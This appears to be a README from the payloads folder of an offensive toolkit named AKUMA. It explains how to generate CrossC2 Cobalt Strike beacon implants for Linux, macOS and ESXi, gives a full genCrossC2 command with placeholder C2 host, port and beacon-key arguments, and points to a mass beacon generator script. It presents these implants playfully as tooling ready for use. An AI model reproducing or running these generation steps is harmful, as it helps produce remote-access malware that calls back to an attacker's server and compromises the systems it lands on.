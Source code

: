 # 💣 AKUMA Payloads Directory

This directory will contain your generated CrossC2 beacon payloads.

## ⚠️ Security Notice
**Generated beacon files are NOT included in the repository for security reasons!**

## 🚀 Generate Your Payloads

### Quick Generation:
```bash
# From project root directory
./tools/genCrossC2.Linux \
  YOUR_C2_HOST \
  YOUR_C2_PORT \
  /path/to/.cobaltstrike.beacon_keys \
  null \
  Linux \
  x64 \
  ./payloads/my_beacon \
  raw
```

### Mass Generation:
```bash
# Use the mass generator script
./examples/mass_beacon_generator.sh
```

## 🎯 Supported Platforms
- **Linux** (x86/x64)
- **macOS** (x86/x64/M1)
- **ESXi** (x64)
- **Linux-bind** (x64)
- **macOS-bind** (x64)

## 💀 Remember
All generated beacons will appear here after generation. Keep them secure!

*"A payload without encryption is like a hacker without a hoodie - technically works, but no style!"* - AKUMA
